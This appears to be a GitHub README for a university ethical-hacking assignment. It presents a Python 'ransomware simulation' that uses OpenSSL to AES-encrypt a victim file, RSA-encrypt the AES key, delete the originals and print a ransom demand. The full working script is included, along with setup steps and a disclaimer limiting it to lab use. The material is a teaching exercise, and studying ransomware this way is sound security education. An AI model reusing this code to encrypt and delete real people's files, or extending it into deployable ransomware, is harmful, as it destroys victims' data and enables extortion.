 # 💣 CSCI369 – Ransomware Simulation 

This project simulates a simple ransomware attack using Python and OpenSSL, fulfilling the specifications in the CSCI369 Ethical Hacking assignment.

Name: Sheethal Santhanam

---

## 📘 Objective

> Use a Python script to:
> - Generate a 16-byte (128-bit) AES key using `openssl rand`
> - Encrypt a victim’s file with that key
> - Encrypt the AES key using RSA public key
> - Output ciphertexts in base64
> - Delete the original files
> - Display a ransom message

---

## 📁 Folder Structure

```
Q3/
├── ransomware.py       # Python script with subprocess automation
├── data_cipher.txt     # AES-encrypted victim file
├── key_cipher.txt      # RSA-encrypted AES key (base64)
├── private.pem         # RSA private key
├── public.pem          # RSA public key
├── README.txt          # This file
```

---

## 🛠 Setup Instructions (Kali Linux)

1. Make sure you have Python 3 and OpenSSL installed:
   ```bash
   openssl version
   python3 --version
   ```

2. Create the file the attacker wants to steal:
   ```bash
   echo 'This is a top secret. Do not tell anyone!' > my_secrets.txt
   ```

3. Run the script:
   ```bash
   python3 ransomware.py
   ```

---

## 🔐 How It Works

| Step | Action |
|------|--------|
| 1️⃣ | Generate random AES key (`key.txt`) |
| 2️⃣ | Generate RSA key pair (`private.pem`, `public.pem`) |
| 3️⃣ | Encrypt `my_secrets.txt` → `data_cipher.txt` using AES |
| 4️⃣ | Encrypt `key.txt` using RSA public key → `key_cipher.txt` |
| 5️⃣ | Delete original `key.txt` and `my_secrets.txt` |
| 6️⃣ | Print ransom note |

---

## 📄 Final Output Files

| File             | Description |
|------------------|-------------|
| `data_cipher.txt`| Encrypted secret file (AES + base64) |
| `key_cipher.txt` | Encrypted AES key (RSA + base64)     |
| `private.pem`    | RSA private key (attacker-only)      |
| `public.pem`     | RSA public key (used for encryption) |

---

## 💀 Ransom Message

```
💀 RANSOM NOTE 💀
Your file important.txt is encrypted.
To decrypt it, you need to pay me $1,000 and send key_cipher.txt to me.
```

---

## 🐍 ransomware.py – With Full Comments

```python
import subprocess
import os

# STEP 1: Generate a random 16-byte AES key (base64 format)
subprocess.run(["openssl", "rand", "-base64", "16"], stdout=open("key.txt", "w"))
print("[+] Generated AES key -> key.txt")

# STEP 2: Generate RSA private key (attacker’s private key)
subprocess.run(["openssl", "genrsa", "-out", "private.pem", "2048"])
print("[+] Generated RSA private key -> private.pem")

# STEP 3: Extract the RSA public key from private.pem
subprocess.run(["openssl", "rsa", "-in", "private.pem", "-outform", "PEM", "-pubout", "-out", "public.pem"])
print("[+] Generated RSA public key -> public.pem")

# STEP 4: Encrypt victim’s file using the AES key
subprocess.run([
    "openssl", "enc", "-aes-128-cbc", "-base64",
    "-in", "my_secrets.txt", "-out", "data_cipher.txt",
    "-pass", "file:key.txt"
])
print("[+] Encrypted victim file -> data_cipher.txt")

# STEP 5: Encrypt the AES key using RSA public key (binary)
subprocess.run([
    "openssl", "pkeyutl", "-encrypt", "-pubin",
    "-inkey", "public.pem", "-in", "key.txt", "-out", "key_cipher.bin"
])
print("[+] Encrypted AES key with RSA -> key_cipher.bin")

# STEP 6: Convert binary encrypted key to base64 → key_cipher.txt
subprocess.run(["base64", "key_cipher.bin"], stdout=open("key_cipher.txt", "w"))
print("[+] Converted encrypted AES key to base64 -> key_cipher.txt")

# STEP 7: Clean up temporary file
if os.path.exists("key_cipher.bin"):
    os.remove("key_cipher.bin")

# STEP 8: Delete key.txt and my_secrets.txt to simulate ransomware
if os.path.exists("key.txt"):
    os.remove("key.txt")
if os.path.exists("my_secrets.txt"):
    os.remove("my_secrets.txt")
print("[+] Deleted key.txt and my_secrets.txt")

# STEP 9: Show ransom note
print("\n💀 RANSOM NOTE 💀")
print("Your file important.txt is encrypted.")
print("To decrypt it, you need to pay me $1,000 and send key_cipher.txt to me.")
```

---

## 🚫 Disclaimer

This is a **simulated assignment project** for academic use only.  
Do **not** use this script outside of a safe, legal lab environment. Unauthorized use of ransomware tactics is illegal and unethical.
